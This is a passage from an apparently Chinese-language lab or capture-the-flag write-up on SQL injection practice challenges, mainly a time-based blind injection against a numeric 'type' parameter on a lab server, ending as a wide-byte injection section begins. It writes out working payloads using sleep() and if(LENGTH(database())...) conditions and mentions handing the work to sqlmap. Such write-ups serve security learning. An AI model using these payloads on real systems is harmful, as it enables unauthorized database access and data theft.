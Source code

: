 <font style="color:rgb(0, 0, 0);">将</font>`<font style="color:rgb(0, 0, 0);">status=1</font>`<font style="color:rgb(0, 0, 0);">的密码拼起来，再md5解密，输入账号密码即可拿到KEY。</font>

> <font style="color:rgb(0, 0, 0);">这里的</font>`<font style="color:rgb(0, 0, 0);">mid()</font>`<font style="color:rgb(0, 0, 0);">函数参数是经过考虑的， 之所以用的是</font>`<font style="color:rgb(0, 0, 0);">mid(..., 1, 30)</font>`<font style="color:rgb(0, 0, 0);">、</font>`<font style="color:rgb(0, 0, 0);">mid(..., 31, 30)</font>`<font style="color:rgb(0, 0, 0);">、</font>`<font style="color:rgb(0, 0, 0);">mid(..., 61, 30)</font>`<font style="color:rgb(0, 0, 0);">，是因为两个</font>`<font style="color:rgb(0, 0, 0);">~</font>`<font style="color:rgb(0, 0, 0);">就各占了一个字节，所以能用来显示需要的内容的只有30个字节。</font>
>

# <font style="color:rgb(51, 51, 51);">SQL注入漏洞测试(时间盲注)</font>
进入环境后可以进入提示页面：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757399808319-00cc0b0b-fa58-4cba-acbd-d970da80c6d7.png)

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757399829196-53d77657-a7c6-4c22-bd63-729b661d6e5a.png)

可以发现参数是`type`，构造URL如下：

```plain
http://124.70.71.251:43873/flag.php?type=1
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757400176182-d3abe340-b0c6-42d9-87ea-69ebc6f1e3e2.png)

加上单引号进行测试：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757400217622-6a89b5cb-f337-4cc5-bdcb-30d097c1f529.png)

直接上`sleep()`方法：

```plain
http://124.70.71.251:43873/flag.php?type=1 and sleep(3)--+
```

发现确实有延迟，可以用时间注入。

构造类似于如下的payload，逐渐爆破出数据库信息：

```plain
http://124.70.71.251:43873/flag.php?type=1 and if(LENGTH(database())=4,sleep(3),1)--+
```

由于时间成本较高，这里交给sqlmap：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757402498187-739a8334-c3ea-430c-b8a1-a83599e8cb6d.png)

将得到的数据输入验证框，即可得到最终的KEY。

> 在测试的过程中，观察到`?type=1' and sleep(3)--+`是不执行后面的`sleep()`方法的，但是`?type=1 and sleep(3)--+`执行了，这也说明该注入属于数字型。
>

# <font style="color:rgb(51, 51, 51);">SQL注入漏洞测试(宽字节)</font>
该题环境依旧是类似文首的几题，进入通知界面：
